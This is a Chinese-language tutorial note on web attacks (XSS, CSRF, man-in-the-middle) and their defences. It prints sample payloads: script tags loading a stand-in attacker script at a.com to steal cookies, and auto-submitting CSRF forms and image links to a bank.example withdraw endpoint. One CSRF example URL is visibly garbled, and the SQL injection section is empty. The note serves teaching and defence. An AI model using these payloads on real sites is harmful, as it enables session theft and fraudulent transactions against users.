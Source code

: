 # 概览

- **XSS**：XSS 全称是 Cross Site Scripting，为了与“CSS”区分开来，故简称 XSS，翻译过来就是“跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。
- **CSRF**: CSRF 英文全称是 Cross-site request forgery，所以又称为“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事
- **中间人攻击**：是指攻击者与通讯的两端分别创建独立的联系，在通讯中充当一个中间人角色对数据进行监听、拦截甚至篡改。
- **SQL注入**：

# XSS
>  Cross Site Scripting（跨站脚本攻击） 是指攻击者利用网站漏洞将代码注入到其他用户浏览器的攻击方式。常见类型有：反射型（非持久性）存储型（持久性）DOM 型

### 类型
#### 反射型（非持久性）  
原理：攻击者通过在 URL 插入恶意代码，其他用户访问该恶意链接时，服务端在URL 取出恶意代码后拼接至 HTML 中返回给用户浏览器。

要点：  
**通过 URL 插入恶意代码。**  
**有服务端参与。**   
**需要用户访问特定链接。**  

例子：  
攻击者诱导被害者打开链接hzfe.org?name=<script src="http://a.com/attack.js"/>。被攻击网站服务器收到请求后，未经处理直接将 URL 的 name 字段直接拼接至前端模板中，并返回数据。被害者在不知情的情况下，执行了攻击者注入的脚本（可以通过这个获取对方的Cookie 等）。

#### 存储型（持久性）  
原理：攻击者将注入型脚本提交至被攻击网站数据库中，当其他用户浏览器请求数据时，注入脚本从服务器返回并执行。

要点：  
**恶意代码存储在目标网站服务器上。**  
**有服务端参与。**   
**只要用户访问被注入恶意脚本的页面时，就会被攻击。** 

例子：  
攻击者在目标网站留言板中提交了<script src="http://a.com/attack.js"/>。目标网站服务端未经转义存储了恶意代码，前端请求到数据后直接通过innerHTML 渲染到页面中。其他用户在访问该留言板时，会自动执行攻击者注入脚本。

#### DOM 型  
原理：  
攻击者通过在 URL 插入恶意代码，客户端脚本取出 URL 中的恶意代码并执行。  

要点：  
在客户端发生。

例子：  
攻击者诱导被害者打开链接hzfe.org?name=<script src="http://a.com/attack.js"/>。被攻击网站前端取出 URL 的 name 字段后未经转义直接通过 innerHTML 渲染到页面中。被害者在不知情的情况下，执行了攻击者注入的脚本。

### 防范 XSS  
- 对于外部传入的内容进行充分转义。
- 开启 CSP（Content Security Policy，内容安全策略），规定客户端哪些外部资源可以加载和执行，降低 XSS 风险。
- 设置 Cookie httpOnly 属性，禁止 JavaScript 读取 Cookie 防止被窃取。

# Cross-site request forgery(CSRF)

### 案例
一个真实的案例：用户 David 在自己邮箱内点击了黑客恶意伪装的链接。黑客在点击的链接里冒充用户(cookie)向 Gmail 服务器发送邮件自动转发请求，导致 David 的邮件都被自动转发到了黑客的邮箱，从而被黑客利用盗取了用户数据。

### 原理
原理：攻击者诱导受害者进入第三方网站，在第三方网站中向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的身份凭证，达到冒充用户对被攻击的网站执行某项操作的目的。

### 要点：
- 利用浏览器在发送 HTTP 请求时会自动带上 Cookie 的原理，冒用受害者身份请求。
- 攻击一般发生在第三方网站上。
- 攻击者只能“冒用”受害者的身份凭证，并不能获取。
- 跨站请求有多种方式，常见的有图片 URL、超链接、Form 提交等。

### CSRF 常见的攻击方式与防护策略
常见的攻击方式：  
* 自动发起 GET 请求的 CSRF
* 自动发起 POST 请求的 CSRF
* 引诱用户点击链接的 CSRF

1. 自动发起 Get 请求  
GET类型的CSRF利用非常简单，只需要一个HTTP请求，一般会这样利用：
```
 ![](https://awps-assets.meituan.net/mit-x/blog-images-bundle-2018b/ff0cdbee.example/withdraw?amount=10000&for=hacker)
```
在受害者访问含有这个img的页面后，浏览器会自动向`http://bank.example/withdraw?account=xiaoming&amount=10000&for=hacker`发出一次HTTP请求。bank.example就会收到包含受害者登录信息的一次跨域请求。

2. 自动发起 POST 请求  
这种类型的CSRF利用起来通常使用的是一个自动提交的表单，如：
```html
 <form action="http://bank.example/withdraw" method=POST>
    <input type="hidden" name="account" value="xiaoming" />
    <input type="hidden" name="amount" value="10000" />
    <input type="hidden" name="for" value="hacker" />
</form>
<script> document.forms[0].submit(); </script>
```
访问该页面后，表单会自动提交，相当于模拟用户完成了一次POST操作。  
POST类型的攻击通常比GET要求更加严格一点，但仍并不复杂。任何个人网站、博客，被黑客上传页面的网站都有可能是发起攻击的来源，后端接口不能将安全寄托在仅允许POST上面。

3. 引诱用户点击链接  
链接类型的CSRF并不常见，比起其他两种用户打开页面就中招的情况，这种需要用户点击链接才会触发。这种类型通常是在论坛中发布的图片中嵌入恶意链接，或者以广告的形式诱导用户中招，攻击者通常会以比较夸张的词语诱骗用户点击，例如：
```html
  <a href="http://test.com/csrf/withdraw.php?amount=1000&for=hacker" taget="_blank">
  重磅消息！！
  <a/>
```
由于之前用户登录了信任的网站A，并且保存登录状态，只要用户主动访问上面的这个PHP页面，则表示攻击成功。


CSRF 攻击的两个必要条件：  

**1. 目标站点一定要有 CSRF 漏洞；**  
**2. 诱导用户从目标网站，打开一个第三方站点。**

CSRF通常从第三方网站发起，被攻击的网站无法防止攻击发生，只能通过增强自己网站针对CSRF的防护能力来提升安全性。

上文中讲了CSRF的两个特点：

CSRF（通常）发生在第三方域名。
CSRF攻击者不能获取到Cookie等信息，只是使用。
针对这两点，我们可以专门制定防护策略，如下：

* 阻止不明外域的访问
  * 同源检测
  * Samesite Cookie
* 提交时要求附加本域才能获取的信息
  * CSRF Token
  * 双重Cookie验证
### 防范：

1. 使用 **CSRF Token** 验证用户身份
原理：服务端生成 CSRF Token （通常存储在 Session 中），用户提交请求时携带上 Token，服务端验证 Token 是否有效。
优点：能比较有效的防御 CSRF （前提是没有 XSS 漏洞泄露 Token）。
缺点：大型网站中 Session 存储会增加服务器压力，且若使用分布式集群还需要一个公共存储空间存储 Token，否则可能用户请求到不同服务器上导致用户凭证失效；有一定的工作量。
2. **双重 Cookie 验证**
原理：利用攻击者不能获取到 Cookie 的特点，在 URL 参数或者自定义请求头上带上 Cookie 数据，服务器再验证该数据是否与 Cookie 一致。
优点：无需使用 Session，不会给服务器压力。
3. 设置 Cookie 的 SameSite 属性可以用来限制第三方 Cookie 的使用，可选值有 Strict、Lax、None。(**SameSite Cookie**)
Strict：完全禁止第三方 Cookie。
Lax：只允许链接、预加载请求和 GET 表单的场景下发送第三方 Cookie。
None：关闭 SameSite 属性。
**设置为 Lax 或者 Strict，禁止发送第三方 Cookie。**
5. 设置白名单，仅允许安全域名请求
6. 增加验证码验证

# 中间人攻击（MITM）
> 中间人攻击是一种通过各种技术手段入侵两台设备通信的网络攻击方法

成功的中间人攻击主要有两个不同的阶段：拦截和解密。

### 中间人攻击防范  
* 对于开发者来说：
  * 支持 HTTPS。
  * 开启 HSTS 策略。
* 对于用户来说：
  * 尽可能使用 HTTPS 链接。
  * 避免连接不知名的 WiFi 热点。
  * 不忽略不安全的浏览器通知。
  * 公共网络不进行涉及敏感信息的交互。
  * 用可信的第三方 CA 厂商，不下载来源不明的证书。
